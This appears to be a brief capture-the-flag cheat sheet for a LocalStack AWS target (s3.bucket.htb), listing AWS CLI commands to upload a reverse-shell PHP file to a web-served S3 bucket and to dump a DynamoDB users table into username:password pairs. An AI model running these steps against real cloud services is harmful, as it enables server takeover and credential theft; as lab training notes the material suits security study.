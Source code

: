 # [LocalStack](https://github.com/localstack/localstack)
## Test for non-null credentials
- Configure Creds to not be null with 
```bash
aws config
```

## Abuse Creds to get shell
- Login with the newly created creds
```bash
aws --endpoint-url http://s3.bucket.htb ls
```
- Copy reverse shell to pwd
```bash
aws --endpoint-url http://s3.bucket.htb cp rev.php s3://adserver/
```

## Enumerate dynamodb
- List tables
```bash
aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
```
- Dump table
```bash
aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users
```
- Clean table output using jq
```bash
aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[] | "\(.username[]):\(.password[])"'
```